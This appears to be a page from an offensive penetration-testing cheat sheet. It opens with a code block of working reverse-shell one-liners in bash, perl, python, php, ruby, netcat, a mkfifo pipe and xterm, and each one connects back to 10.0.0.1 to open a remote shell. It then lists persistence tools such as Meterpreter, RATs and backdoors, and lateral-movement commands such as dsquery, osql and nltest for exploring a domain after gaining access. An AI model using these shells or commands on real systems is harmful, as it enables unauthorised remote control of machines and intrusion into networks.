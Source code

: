 ```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 # No /dev/tcp on Mac OS X
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
nc -e /bin/sh 10.0.0.1 1234 # note need -l on some versions, and many does NOT support -e anymore
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
xterm -display 10.0.0.1:1
Listener-     Xnest :1
Add permission to connect-  xhost +victimIP
```

### Persistance

* Meterpreter
  * HTTPS
  * Pro's Persistence Agent
* MOS_DEF
  * Thuderbird SPAM Persistence
  * DNS, HTTP, HTTPS, etc
  * CORE Agent?
  * Wiz-bang custom binary/backdoor?
  * RAT (probably backdoored in other ways)
* Metasploit pro has managed multi-reverse-shell functionality (two or more people in at the same time on the same reverse connection)

## Branching out once inside

### Good

* Nmap
* ping
* nessus
* nexpose
* angry ip scanner?
* "net view /domain"

### Better

* OSQL
  * osql -L: Lists all MS SQL servers
* DSQUERY / DSGET (Annoying)
  * dsquery computer -limit 0: current domain
  * dsquery user -limit 0
  * dsquery computer -limit 0 "DC=company,DC=net"
  * dsquery user -limit 0 "DC=company,DC=net" <- other domain
  * (Joeware) ADFind (less annoying)
* nltest
  * Keeps trying to get you info if one path fails
